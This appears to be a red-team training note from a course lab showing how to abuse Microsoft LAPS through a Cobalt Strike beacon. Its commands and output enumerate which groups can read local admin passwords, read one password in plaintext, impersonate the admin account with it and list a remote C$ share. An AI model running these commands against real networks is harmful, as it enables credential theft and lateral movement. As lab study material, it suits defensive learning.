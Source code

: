

#### 🖊️ via Cobalt Strike

1) We can discover which principals are allowed to read the `ms-Mcs-AdmPwd` attribute by reading its DACL on each computer object.

```
beacon> powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier

ObjectDN                                                      SecurityIdentifier                          
--------                                                      ------------------                          
CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io         S-1-5-21-569305411-121244042-2357301523-1107
CN=WEB,OU=Web Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io   S-1-5-21-569305411-121244042-2357301523-1108
CN=SQL-2,OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io S-1-5-21-569305411-121244042-2357301523-1108
CN=WKSTN-1,OU=Workstations,DC=dev,DC=cyberbotic,DC=io         S-1-5-21-569305411-121244042-2357301523-1107

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1108
DEV\Support Engineers
```

2) Dedicated tooling such as the [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) also exist.  `Find-LAPSDelegatedGroups` will query each OU and find domain groups that have delegated read access.

```
beacon> powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1
beacon> powershell Find-LAPSDelegatedGroups

OrgUnit                                              Delegated Groups     
-------                                              ----------------     
OU=Workstations,DC=dev,DC=cyberbotic,DC=io           DEV\Developers       
OU=Servers,DC=dev,DC=cyberbotic,DC=io                DEV\Support Engineers
OU=Web Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io DEV\Support Engineers
OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io DEV\Support Engineers
```

3) `Find-AdmPwdExtendedRights` goes a little deeper and queries each individual computer for users that have "All Extended Rights".  This will reveal any users that can read the attribute without having had it specifically delegated to them.

To get a computer's password, simply read the attribute.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd

ms-mcs-admpwd 
------------- 
1N3FyjJR5L18za
```

Here since our user beacon is part of the DEV group, we should have full access. 

4) The `make_token` command is an easy way to leverage it.

```
beacon> make_token .\LapsAdmin 1N3FyjJR5L18za
[+] Impersonated DEV\bfarmer

beacon> ls \\wkstn-1\c$
[*] Listing: \\wkstn-1\c$\

Size     Type    Last Modified         Name
----     ----    -------------         ----
          dir     08/16/2022 08:17:30   $Recycle.Bin
          dir     08/15/2022 22:22:31   $WinREAgent
          dir     01/27/2022 18:18:49   Documents and Settings
```



#### ⚠ Opsec




### Properties
---
📆 created   {{28-02-2024}} 09:06
🏷️ tags: #redteam #crto 

---

